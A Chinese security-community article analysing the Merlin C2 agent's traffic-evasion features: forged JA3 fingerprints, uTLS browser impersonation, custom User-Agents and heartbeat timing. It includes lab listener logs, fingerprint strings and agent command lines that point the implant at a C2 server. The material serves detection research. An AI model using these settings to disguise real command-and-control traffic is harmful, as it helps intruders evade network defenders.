# 流量检测形同虚设？Merlin Agent远控木马的逃逸高招-先知社区

> **来源**: https://xz.aliyun.com/news/17058  
> **文章ID**: 17058

---

## 概述

在前面两篇文章中，笔者从Merlin Agent远控木马、Merlin Agent通信加解密原理角度对Merlin后渗透利用框架进行了阶段性剖析，学习了不少东西，在研究的过程中，笔者也是对Merlin后渗透利用框架越来越熟悉，逐步搞明白了Merlin后渗透利用框架各项功能及设计理念。

在研究过程中，笔者发现Merlin后渗透利用框架考虑得还是比较全面，除了实现了各项远控功能外，还内置了多个用以逃避流量检测的运行参数，这在实际APT网络攻击对抗中还是比较有用的。

相关运行参数截图如下：



## 伪造ja3指纹

Merlin Agent远控木马支持在运行过程中使用`-ja3`参数自定义配置ja3指纹。

基于网络调研，可知：

* `ja3`是一种基于 SSL/TLS 握手过程的特征指纹技术，它通过对客户端在建立 SSL/TLS 连接时发送的数据进行哈希计算，从而生成一个唯一的指纹；
* `ja3`指纹被广泛用于识别和分析网络流量，尤其是在恶意流量检测和防御中；
* 伪造`ja3`指纹，即为故意制造与某个合法客户端相同或相似的指纹，实现绕过安全检测、模拟正常流量的目的。

网络中关于ja3指纹的相关介绍如下：



### 底层代码原理

进一步剖析Merlin Agent远控木马伪造`ja3`指纹的底层原理，发现其底层技术是在`https://github.com/CUCyber/ja3transport/`库的基础上，做了一系列优化魔改，相关对比代码情况如下：

* Merlin Agent远控木马



* `https://github.com/CUCyber/ja3transport/`库（5年前的项目了。。。）



### 实操伪造ja3指纹

尝试使用Merlin Agent远控木马实操伪造ja3指纹，笔者发现：

* 在尝试了多次后，笔者暂只能基于`https://github.com/CUCyber/ja3transport/`库中提供的ja3指纹进行伪造；
* 若直接从其他地方复制ja3指纹值，将导致TLS握手不成功；

`https://github.com/CUCyber/ja3transport/`库中提供的ja3指纹信息如下：

```
769,47–53–5–10–49161–49162–49171–49172–50–56–19–4,0–10–11,23–24–25,0

771,4865-4866-4867-49196-49195-49188-49187-49162-49161-52393-49200-49199-49192-49191-49172-49171-52392-157-156-61-60-53-47-49160-49170-10,65281-0-23-13-5-18-16-11-51-45-43-10-21,29-23-24-25,0
```



实操流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.64.128

[+] 2025-02-20T22:58:04Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTPS]» info

+---------------+---------------------------------------------------------+
|     NAME      |                          VALUE                          |
+---------------+---------------------------------------------------------+
| X509Key       | C:\Users\admin\Desktop\merlin-main\data\x509\server.key |
+---------------+---------------------------------------------------------+
| Transforms    | jwe,gob-base                                            |
+---------------+---------------------------------------------------------+
| Authenticator | OPAQUE                                                  |
+---------------+---------------------------------------------------------+
| JWTKey        | SkNvV2VSa0JWVnJEYmZkb2dlS3VKaG5jRHVmcVdaYVo=            |
+---------------+---------------------------------------------------------+
| X509Cert      | C:\Users\admin\Desktop\merlin-main\data\x509\server.crt |
+---------------+---------------------------------------------------------+
| Interface     | 192.168.64.128                                          |
+---------------+---------------------------------------------------------+
| URLS          | /                                                       |
+---------------+---------------------------------------------------------+
| Name          | My HTTP Listener                                        |
+---------------+---------------------------------------------------------+
| Port          | 443                                                     |
+---------------+---------------------------------------------------------+
| Protocol      | HTTPS                                                   |
+---------------+---------------------------------------------------------+
| Description   | Default HTTP Listener                                   |
+---------------+---------------------------------------------------------+
| JWTLeeway     | 1m                                                      |
+---------------+---------------------------------------------------------+
| PSK           | merlin                                                  |
+---------------+---------------------------------------------------------+

Merlin[listeners][HTTPS]» start

[-] 2025-02-20T22:58:08Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-20T22:58:09Z Started 'My HTTP Listener' listener with an ID of 064bbbb7-459e-489e-b3f1-851eb5997468 and a HTTPS server on 192.168.64.128:443
Merlin[listeners][064bbbb7-459e-489e-b3f1-851eb5997468]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe -url https://192.168.64.128:443/ -proto https -v -ja3 771,4865-4866-4867-49196-49195-49188-49187-49162-49161-52393-49200-49199-49192-49191-49172-49171-52392-157-156-61-60-53-47-49160-49170-10,65281-0-23-13-5-18-16-11-51-45-43-10-21,29-23-24-25,0
```

尝试捕获通信过程中的通信数据包，分析发现，通信数据包中的`ja3`指纹（771,4865-4866-4867-49196-49195-49188-49187-49162-49161-52393-49200-49199-49192-49191-49172-49171-52392-157-156-61-60-53-47-49160-49170-10,65281-0-23-13-5-18-16-11-51-45-43-10-21,29-23-24-25,0）与Merlin Agent远控木马运行参数中的`ja3`指纹值相同。

相关数据包截图如下：



## 模拟特定浏览器

Merlin Agent远控木马支持在运行过程中使用`-parrot`参数模拟特定浏览器信息。

### 底层代码原理

尝试对Merlin Agent远控木马`-parrot`参数的底层原理进行剖析，笔者发现其底层技术是基于`https://github.com/refraction-networking/utls/`库实现的，`refraction-networking/utls/`库是基于crypto/tls进行开发的，可以模拟绝大部分情况下的ja3指纹。

进一步分析，发现utls.go代码中包含了可使用的`-parrot`参数值，相关值如下：

```
HelloFirefox_Auto
HelloFirefox_55
HelloFirefox_56
HelloFirefox_63
HelloFirefox_65
HelloFirefox_99
HelloFirefox_102
HelloFirefox_105
HelloChrome_Auto
HelloChrome_58
HelloChrome_62
HelloChrome_70
HelloChrome_72
HelloChrome_83
HelloChrome_87
HelloChrome_96
HelloChrome_100
HelloChrome_102
HelloIOS_Auto
HelloIOS_11_1
HelloIOS_12_1
HelloIOS_13
HelloIOS_14
HelloAndroid_11_OkHttp
HelloEdge_Auto
HelloEdge_85
HelloEdge_106
HelloSafari_Auto
HelloSafari_16_0
Hello360_Auto
Hello360_7_5
Hello360_11_0
HelloQQ_Auto
HelloQQ_11_1
```

相关代码截图如下：



### 实操模拟特定浏览器

实操流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.64.128

[+] 2025-02-21T01:11:15Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTPS]» info

+---------------+---------------------------------------------------------+
|     NAME      |                          VALUE                          |
+---------------+---------------------------------------------------------+
| Interface     | 192.168.64.128                                          |
+---------------+---------------------------------------------------------+
| JWTKey        | UUdpTWlRWlNhbm9YYXNoaWNac1Vla2FzUHB2b1VwVks=            |
+---------------+---------------------------------------------------------+
| Name          | My HTTP Listener                                        |
+---------------+---------------------------------------------------------+
| Description   | Default HTTP Listener                                   |
+---------------+---------------------------------------------------------+
| URLS          | /                                                       |
+---------------+---------------------------------------------------------+
| X509Cert      | C:\Users\admin\Desktop\merlin-main\data\x509\server.crt |
+---------------+---------------------------------------------------------+
| Port          | 443                                                     |
+---------------+---------------------------------------------------------+
| Protocol      | HTTPS                                                   |
+---------------+---------------------------------------------------------+
| X509Key       | C:\Users\admin\Desktop\merlin-main\data\x509\server.key |
+---------------+---------------------------------------------------------+
| Authenticator | OPAQUE                                                  |
+---------------+---------------------------------------------------------+
| JWTLeeway     | 1m                                                      |
+---------------+---------------------------------------------------------+
| PSK           | merlin                                                  |
+---------------+---------------------------------------------------------+
| Transforms    | jwe,gob-base                                            |
+---------------+---------------------------------------------------------+

Merlin[listeners][HTTPS]» start

[-] 2025-02-21T01:11:54Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-21T01:11:55Z Started 'My HTTP Listener' listener with an ID of e59d5cf8-a734-4132-ada2-9b69b6d585ec and a HTTPS server on 192.168.64.128:443
Merlin[listeners][e59d5cf8-a734-4132-ada2-9b69b6d585ec]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe -url https://192.168.64.128:443/ -proto https -v -parrot HelloChrome_83
```

尝试捕获通信过程中的通信数据包，分析发现，通信数据包中的`ja3`指纹hash值（b32309a26951912be7dba376398abc3b）与网络中Chrome 83版本的`ja3`指纹hash值相同。

相关数据包截图如下：



网络中关于Chrome 83版本的`ja3`指纹hash值的描述如下：



## 灵活配置UserAgent

Merlin Agent远控木马支持在运行过程中使用`-useragent`参数自定义HTTP通信的User-Agent值，默认User-Agent值为`Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.85 Safari/537.36`。

相关参数说明如下：



通过自定义配置UserAgent信息可实现：

* HTTP、H2C等明文通信中，模拟各类浏览器；
* HTTPS等加密通信中，避免基于流量解密技术识别发现解密后的HTTP通信的UserAgent中的浏览器信息与ja3指纹所对应的浏览器信息不同；

### 实操模拟特定浏览器

实操流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTP
Merlin[listeners][HTTP]» set Interface 192.168.64.128

[+] 2025-02-21T02:00:07Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| JWTKey        | WUxPV2poUmJSdHR1TGxFVWttQm1TSVZIVFZ5aG16a2E= |
+---------------+----------------------------------------------+
| Port          | 80                                           |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Protocol      | HTTP                                         |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m                                           |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base                                 |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+

Merlin[listeners][HTTP]» start

[+] 2025-02-21T02:00:11Z Started 'My HTTP Listener' listener with an ID of 4e24261f-e7c8-4cf0-9c04-3d7411df9b65 and a HTTP server on 192.168.64.128:80
Merlin[listeners][4e24261f-e7c8-4cf0-9c04-3d7411df9b65]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe -url http://192.168.64.128:80/ -proto http -useragent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1"
```

尝试捕获通信过程中的通信数据包，分析发现，通信数据包中的HTTP UserAgent请求头与`-useragent`参数值相同。

相关数据包截图如下：



## 灵活配置心跳包发送频率

Merlin Agent远控木马支持在运行过程中使用`-sleep`参数自定义心跳包频率，默认心跳包频率为30s。

相关参数说明如下：



### 底层代码原理

尝试对Merlin Agent远控木马源码进行剖析，笔者发现，Merlin Agent远控木马通信过程中，将根据`-sleep`参数值周期性的调用checkIn()函数，相关代码截图如下：



`-sleep`参数值的赋值过程如下：







### 实操自定义心跳包频率

实操流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.64.128

[+] 2025-02-21T02:28:52Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTPS]» start

[-] 2025-02-21T02:28:54Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-21T02:28:55Z Started 'My HTTP Listener' listener with an ID of 48960e5d-a89c-41e2-be4d-3a3bf45198f7 and a HTTPS server on 192.168.64.128:443
Merlin[listeners][48960e5d-a89c-41e2-be4d-3a3bf45198f7]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Protocol      | HTTPS                                        |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTKey        | Q3lNZ3ZuQ1NnSlZSRGlyb2pKbHRBdHJBWXhrVWxYQWw= |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| ID            | 48960e5d-a89c-41e2-be4d-3a3bf45198f7         |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][48960e5d-a89c-41e2-be4d-3a3bf45198f7]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe -url https://192.168.64.128:443/ -proto https -sleep 10s -skew 0
```

尝试捕获通信过程中的通信数据包，分析发现，Merlin Agent远控木马执行后：

* 首先开启身份认证，认证成功后，将发送Agent基本信息至Merlin Server端；
* 随后，Merlin Agent远控木马将根据`-sleep`参数周期性的调用checkIn()函数；（此通信行为即为心跳包）
* 若攻击者基于merlin-cli程序向Merlin Server端下发了远控指令，则远控指令将在对应Merlin Agent的心跳通信中返回；
* 若攻击者未下发远控指令，则心跳通信中的返回信息将为固定长度的随机数据；

相关数据包截图如下：（心跳包频率为10s）

